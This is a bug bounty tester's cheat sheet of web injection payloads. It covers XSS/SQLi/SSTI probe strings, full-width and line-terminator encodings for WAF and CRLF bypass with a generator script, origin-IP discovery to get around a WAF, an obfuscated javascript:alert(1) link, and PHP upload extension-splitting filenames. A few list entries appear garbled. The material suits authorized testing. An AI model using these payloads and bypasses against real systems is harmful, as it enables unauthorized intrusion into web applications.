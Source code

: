 ```yaml
---
layout: memory
title: Bug Bounty Cheat Sheet
---
```


A cheat sheet for quick testing related to some of my Bug Bounty activities


## Test for XSS or SQLi as a oneliner

Testing Oneliner: `qwert'"<x</`

Explanation:
```
qwert - easy to type & find in HTML
'" - JS/HTML breakout & SQLi
<x - HTML injection test
</ - <script> breakout

extra for SSTI/CSTI

{{[7*7]}}${7*7}qwe'"<x</
```

## A full-width version of symbols related to XSS, CRLF, WAF bypass

```
＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")

%0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
%0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ
```

This was produced by using this script:

```python
import argparse
import urllib.parse

def create_full_width(hex_value):
    hex_value = hex_value.upper()
    base_decimal = int(hex_value, 16)
    s = chr(base_decimal)

    if hex_value == '0A':
        s = 'LF'
    if hex_value == '0D':
        s = 'CR'

    fw_decimal = base_decimal + 0xFEE0
    fw_hex = format(fw_decimal, 'X')
    fw_char = chr(fw_decimal)
    fw_enc = urllib.parse.quote(fw_char).upper()

    return f"{fw_char} = %{fw_enc} = \\u{fw_hex} ⇒ %{hex_value} ({s})"

def showcase():
    # Example usage
    print(create_full_width('3C'))  # Output: ＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
    print(create_full_width('3E'))  # Output: ＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
    print(create_full_width('5C'))  # Output: ＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
    print(create_full_width('2F'))  # Output: ／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
    print(create_full_width('27'))  # Output: ＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
    print(create_full_width('22'))  # Output: ＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")
    print(create_full_width('0A'))  # Output: %0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
    print(create_full_width('0D'))  # Output: %0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ


def main():
    parser = argparse.ArgumentParser(description="Convert hex values to full-width characters and their URL-encoded representations.")
    parser.add_argument("--hex", help="Input hex value to convert", type=str, default=None)
    parser.add_argument("--demo", help="Showcase with demo input", action="store_true")
    args = parser.parse_args()

    if args.demo:
        showcase()
        
    if args.hex:
        print(create_full_width(args.hex))

if __name__ == "__main__":
    main()
```


## Line terminators for XSS / CRLF injection

```
LF: %0A (\u000A)
VT: %0B (\u000B)
FF: %0C (\u000C)
CR: %0D (\u000D)
CR+LF: %0D%0A (\u000D\u000A)
NEL: %C2%85 (\u0085)
LS: %E2%80%A8 (\u2028)
PS: %E2%80%A9 (\u2029)
```

## Bypass WAF 

Bypass by discovering the origin IP address of a server using the following:

- search domain on [Censys](https://search.censys.io/)
- domain history on [SecurityTrails](https://securitytrails.com/)
- test pingbacks (XML-RPC, SSRF)
- fake email to domain & check receipt
- receive domain email & check headers


## Injecting HTML character entities in different places of the URL

```html
<a href="{A}javas{B}cript{C}:alert(1)">
```

1. &#01, &#02 ... up to ... &#32
1. &#09, &#10, &#13
1. &#09, &#10, &#13

Example:
```html
<a href="&#27;javas&#09;cript&#13;:alert(1)">
Click Me
</a>
```


## Encodings for Common Symbols used for testing

```
`<` = %3C \u003c &#x3c; &#60; &lt;
`>` = %3E \u003e &#x3e; &#62; &gt;
`'` = %27 \u0027 &#x27; &#39; &apos;
`"` = %22 \u0022 &#x22; &#34; &quot;
`\` = %5C \u005c &#x5c; &#92; &bsol;
`/` = %2F \u002f &#x2f; &#47; &sol;
`:` = %3A \u003A &#x3A; &#58; &colon;
`%` = %25 \u0025 &#x25; &#37; &percnt;
`&` = %26 \u0026 &#x26; &#38; &amp;
`.` = %2E \u002e &#x2e; &#46; &period;
``` = %60 \u0060 &#x60; &#96; &grave;
`+` = %2B \u002B &#x2b; &#43; &plus;
```

## File upload extension splitting

```
qwe.php.png
qwe.php\x20.png
qwe.php\00.png
qwe.php\x00.png
qwe.php%00.png
qwe.php&#00;.png
qwe. e.php&#x00; .png
qwe.php\u0000.png
qwe.php%20.png
qwe.php&#20;.png
qwe.php&#x20;.png
qwe.php; .png
qwe.php%3B.png
qwe.php\x3B.png
qwe.php&#59;.png
qwe.php&#x3b;.png
qwe.php\u003b.png
qwe.php\u563b.png
qwe.php%C0%bb.png
qwe.php%E5%98%bb.png
qwe.php%E0%80%bb.png
qwe.php%E0%80%80.png
qwe.php%C0%A0.] 9.png
qwe.php%E5%98%A0.png
qwe.php%E0%80%A0.png
qwe.php\u5600.png
qwe.php\u5620.png
qwe.php%C0%80.png
qwe.php\u0020.png
```